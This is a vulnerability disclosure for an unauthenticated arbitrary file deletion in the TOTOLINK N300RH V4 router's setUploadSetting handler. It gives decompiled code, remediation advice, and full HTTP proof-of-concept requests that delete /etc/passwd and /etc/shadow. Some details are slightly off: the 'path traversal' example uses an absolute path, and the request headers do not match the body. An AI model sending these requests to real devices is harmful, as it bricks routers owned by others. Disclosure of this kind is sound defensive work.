

# TOTOLINK N300RH V4: External Control of File Name or Path (CWE-73) in `upgrade.so` (`setUploadSetting` / `FileName`)
 

## Summary

The TOTOLINK N300RH V4 web management interface contains an **External Control of File Name or Path** vulnerability in the `setUploadSetting` handler within `upgrade.so`. The handler reads an attacker-controlled `FileName` parameter and passes it directly to `unlink()`, allowing arbitrary file deletion on the device filesystem.

## Impact

**High** - An unauthenticated attacker can delete any file on the device filesystem with root privileges, potentially leading to device bricking, denial of service, or complete system compromise.

## Affected Products

- **Vendor:** TOTOLINK
- **Product:** TOTOLINK N300RH V4 Wireless Router
- **Vulnerability type:** External Control of File Name or Path (CWE-73)

### Tested vulnerable firmware

- V6.1c.1353_B20190305
- V6.1c.1390_B20191101

**Firmware download address:**  
https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/188/ids/36.html

> The vulnerability was verified on firmware version V6.1c.1390_B20191101/V6.1c.1353_B20190305.

## Attack Vector

- **Entry point:** `POST /cgi-bin/cstecgi.cgi`
- **Handler selector:** `topicurl=setUploadSetting`
- **Injection parameter:** `FileName`
- **Authentication:** not required (unauthenticated)
- **User interaction:** not required

## Technical Details

The web management interface retrieves the user-controlled `FileName` parameter via `websGetVar()` and passes it directly to `unlink()`. The root cause is **improper neutralization of externally supplied input before it is used as a filesystem resource path**.

The `FileName` value is forwarded directly to `unlink()` without any validation, sanitization, or path restriction. Because no checks are applied, an attacker can specify any absolute or relative path (including path traversal sequences like `../`), allowing deletion of arbitrary files on the filesystem with root privileges.

The vulnerable logic (decompiled) is:

```c
Var = (const char *)websGetVar(a2, "FileName", "");
v6 = (const char *)websGetVar(a2, "ContentLength", "");
...
v8 = strtol(v6, 0, 10);
Object = cJSON_CreateObject();
if ( v8 >= 1000 )
{
    v15 = malloc(v8);
    memset(v15, 0, v8);
    v16 = fopen(Var, "r");
    v10 = v16;
    if ( v16 )
    {
        fread(v15, 1, v8, v16);
        v17 = fopen("/var/uploadsetting.tar.gz", "w");
        if ( v17 )
        {
            v18 = malloc(v8);
            memset(v18, 0, v8);
            memcpy(v18, v15, v8);
            fwrite(v18, 1, v8, v17);
            fclose(v17);
            free(v18);
            sprintf(v21, "tar zxvf %s  -C /", "/var/uploadsetting.tar.gz");
            CsteSystem(v21, 0);
            String = cJSON_CreateString("1");
            cJSON_AddItemToObject(Object, "settingERR", String);
            fclose(v10);
            unlink(Var);
            v13 = cJSON_Print(Object);
            websGetCfgResponse(a1, a3, v13);
            goto LABEL_7;
        }
    }
    else
    {
        v20 = cJSON_CreateString("MSG_config_error");
        cJSON_AddItemToObject(Object, "settingERR", v20);
    }
}
```


The vulnerability flow is:

1. **Unvalidated external input**  
   `FileName` is obtained directly from the HTTP request via `websGetVar(a2, "FileName", "")` without validation or sanitization.

2. **Arbitrary file deletion**  
   The attacker-controlled `FileName` is passed directly to `unlink()`, which deletes the specified file from the filesystem.

3. **Root privilege execution**  
   The `unlink()` system call executes with root privileges (as the web server runs as root), allowing deletion of any file on the system including critical system files.

## Proof of Concept (PoC)

### Steps to reproduce

1. Send a crafted request to `/cgi-bin/cstecgi.cgi` with `topicurl` set to `setUploadSetting`.
2. Specify an arbitrary file path (e.g., `/etc/passwd` or use path traversal like `../../../etc/shadow`) via the `FileName` parameter.
3. Verify file deletion by observing system behavior or attempting to access the deleted file.

### Example request

The following payload demonstrates arbitrary file deletion by attempting to delete `/etc/passwd`:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: <host>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Origin: http://<host>
Connection: close
Referer: http://<host>/adm/status.asp
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 73

{
  "topicurl": "setting/setUploadSetting",
  "FileName": "/etc/passwd",
  "ContentLength": "100000"
}
```

**Path traversal variant** - deleting files outside the intended directory:
```json
{
  "topicurl": "setting/setUploadSetting",
  "FileName": "/etc/shadow",
  "ContentLength": "100000"
}
```

 **Web response**:
 

 ## Remediation

- **Validate and sanitize file paths:** Strictly whitelist `FileName` to expected patterns (e.g., only allow alphanumeric characters and specific extensions), reject path traversal sequences (`../`), and ensure the path is within an allowed directory.
- **Use secure temporary files:** Generate temporary filenames internally using secure random naming (e.g., `mkstemp()`) instead of accepting user-supplied filenames.
- **Implement authentication/authorization:** Ensure sensitive endpoints require proper authentication and that the user has permission to perform the requested file operations.
- **Principle of least privilege:** Run the web server with minimal privileges, not as root, to limit the impact of path traversal vulnerabilities.
